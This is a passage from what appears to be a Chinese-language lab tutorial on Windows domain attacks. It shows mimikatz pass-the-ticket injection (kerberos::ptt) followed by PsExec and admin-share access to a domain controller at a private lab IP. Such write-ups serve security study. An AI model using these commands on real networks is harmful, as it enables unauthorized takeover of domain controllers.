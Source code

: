 #### 3、注入票据

```bash
kerberos::ptt carmi.kirbr
```

[![](assets/1706958938-3b6b9b1d0189d7399075da067ea23b67.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316969-493974440.png)

#### 4、生成域控会话

```bash
misc::cmd
whoami
dir \\192.168.126.10\c$
PsExec.exe \\192.168.126.10 cmd
ipconfig
```

[![](assets/1706958938-4a5a3f02b8579aee8f2f23e08c0aa0c0.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172317352-404818271.png)
